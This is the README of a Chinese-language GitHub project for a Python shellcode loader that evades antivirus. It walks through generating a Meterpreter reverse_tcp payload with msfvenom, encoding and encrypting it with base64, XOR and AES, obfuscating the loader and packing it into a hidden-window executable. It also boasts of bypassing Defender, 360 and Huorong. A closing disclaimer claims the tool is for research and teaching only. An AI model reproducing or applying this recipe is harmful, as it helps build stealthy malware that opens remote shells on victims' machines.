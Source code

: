 # python-shellcode-loader

<a name="ptTMq"></a>
## 简单介绍
免杀方式 msfvenom生成raw格式的shellcode-->base64-->XOR-->AES<br />将python代码缩小并混淆最后生成exe<br />目前过DF、360和火绒  virustotal：7/66过卡巴斯基、迈克菲等
<a name="H2jnt"></a>
## 获取项目
git clone [https://github.com/HZzz2/python-shellcode-loader.git](https://github.com/HZzz2/python-shellcode-loader.git)<br />cd python-shellcode-loader
<a name="CuRMC"></a>
## 生成shellcode
#生成shellcode<br />`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`
<a name="rNUTI"></a>
## base64编码shellcode并替换jiami.py中的值
#base64<br />`base64 -w 0 -i rev.raw > rev.bs64`<br />`cat rev.bs64`<br />复制base64的值替换jiami.py中payload       也就是 第二十五行 sc='payload' 
<a name="uXwYU"></a>
## 加密base64并替换main.py中的值
#加密base64后的shellcode<br />`python3 jiami.py`<br />#会生成一个aes-xor.txt的文件，复制文件里的值(经过XOR和AES加密后)<br />复制的值替换main.py中的payload   也就是第四十一行 jiami_sc='payload'
<a name="RhzZp"></a>
## 缩小和混淆py代码
<a name="K5dP3"></a>
### 缩小python代码
`pyminify main.py --output main-mini.py`
<a name="PTqkf"></a>
### 混淆main-mini.py中的python代码
[https://pyob.oxyry.com/](https://pyob.oxyry.com/)  在线混淆<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654524591386-7385c972-05e4-4761-bac3-311ae4ab2b0c.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=531&id=u32a8913b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=664&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=192572&status=done&style=none&taskId=uf5d03036-4fc8-4141-aec3-77143fc268e&title=&width=1535.2)<br />将混淆后的代码保存到一个文件中，比如文件名为:main-mini-ob.py
<a name="s0SXj"></a>
## 打包成可执行文件exe
#打包成exe<br />`pyinstaller.exe -Fw -i .\setting.ico --key=leslie .\main-mini-ob.py`<br />-F 打包为单文件 -w 不显示窗口   -i ico图标文件  --key  加密字节码的密钥<br />等待打包完成。。。。<br />打包好后的可执行程序在dist目录中
<a name="dr6Hv"></a>
## 流程图
![](https://cdn.nlark.com/yuque/0/2022/jpeg/26697321/1654524239719-d5ff881a-602c-4508-81b8-8e14c0d41595.jpeg)
<a name="SyXYB"></a>
## 检测图
DF
![image](https://user-images.githubusercontent.com/22775890/172209887-134b5107-353b-45e2-a3b6-9e65b5189b8c.png)

火狐
![image](https://user-images.githubusercontent.com/22775890/172209706-1634bd75-7fe4-4844-bf95-bb8e3dea0540.png)

360杀毒
![image](https://user-images.githubusercontent.com/22775890/172209912-86663b43-9afe-40ec-ba1a-dd6951f04ac3.png)

360安全卫士云查杀
![image](https://user-images.githubusercontent.com/22775890/172209928-b96f0201-2b4d-4efb-bf4c-33df8ed3ce03.png)

virustotal
![image](https://user-images.githubusercontent.com/22775890/172209945-6aa0f8d1-dbe2-443d-9bf1-b127fe271aa9.png)



https://user-images.githubusercontent.com/22775890/172209225-080c2549-45cc-4135-a907-38738ab42df5.mp4



## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。











